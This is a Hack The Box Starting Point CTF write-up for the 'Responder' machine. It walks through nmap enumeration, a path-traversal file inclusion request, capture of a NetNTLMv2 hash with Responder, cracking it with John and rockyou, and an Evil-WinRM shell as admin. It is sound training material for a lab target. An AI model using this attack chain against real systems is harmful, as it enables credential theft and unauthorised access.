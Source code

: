 # 🧠 Responder – HTB Starting Point Write-Up  
**Author:** yvngdrac  
**Tier:** 1  
**Category:** Windows, LFI, Responder, NetNTLMv2, Password Cracking, Evil-WinRM  

---

## 🗒️ Introduction  
Windows remains the dominant OS in enterprise environments, often configured with Active Directory and legacy authentication protocols like NTLM.  
This box demonstrates how a **File Inclusion vulnerability** can be abused to capture a **NetNTLMv2 challenge** via `Responder`, then crack it using `JohnTheRipper` to gain a shell with **Evil-WinRM**.

---

## 🔍 Enumeration  

Performed an Nmap scan:

```bash
nmap -p- --min-rate 1000 -sV 10.129.187.37
```

![nmap result](./writeup-images/nmap_result.png)

Discovered:
- Port 80 (HTTP)
- Possible web app hosted

We add `unika.htb` to the `/etc/hosts` file so the browser can resolve it and send the correct `Host` header:
```
echo "10.129.187.37 unika.htb" | sudo tee -a /etc/hosts
```
Visited the site: **Unika**

![Unika site](./writeup-images/unika.png)

---

## 📤 LFI Discovery  

Found an input field that takes strings:

![String input](./writeup-images/string_input.png)

Tested for LFI using:

```
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

![LFI string input](./writeup-images/lfi-string-input-result.png)

Confirmed inclusion leads to outbound request from server — ✅ **vulnerable to LFI**.

---

## 🧪 Responder Setup  

Started `Responder` on local machine:

```bash
sudo responder -I tun0
```

![Responder started](./writeup-images/responder-initiation.png)

Then configured the parameter to call our malicious SMB path:

![Setting page param](./writeup-images/setting-page-parameter.png)

---

## 🪝 NTLMv2 Hash Captured  

Boom — captured a **NetNTLMv2 hash** for user `admin`.

![Hash captured](./writeup-images/NetNTLMv-for-admin.png)

Saved the hash to a file: `hash.txt`

---

## 🔓 Cracking the Hash  

Used `JohnTheRipper` with the rockyou wordlist:

```bash
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

Cracked password: **badminton**

![Password cracked](./writeup-images/password_badminton.png)

---

## 🩸 Shell Access – Evil-WinRM  

Logged in using Evil-WinRM:

```bash
evil-winrm -i 10.129.187.37 -u admin -p badminton
```

![Evil-WinRM shell](./writeup-images/Evil-Winrm.png)

Listed directories and found the flag:

```bash
dir
type flag.txt
```

![Flag directory](./writeup-images/dir-flag.png)  
![Flag content](./writeup-images/flag-founded.png)

---

## 🔚 What I Learned  

- How NTLMv2 works and why it's still dangerous when combined with LFI (Local File Inclusion) 
- Using `Responder` to capture hashes  
- Cracking hashes with `john`  
- Practical use of `Evil-WinRM` to get reverse shells on Windows targets  

---

## 🧰 Tools Used  
- Nmap  
- Responder  
- JohnTheRipper  
- Evil-WinRM    


---

## ✅ Final Thoughts  

Even though this was a Starting Point machine, the attack chain reflects a **real-world vuln combo** (LFI ➝ SMB relay ➝ NTLMv2 ➝ cracked creds ➝ WinRM shell). This box reinforces how outdated configurations can still lead to pwnage 💀.

---


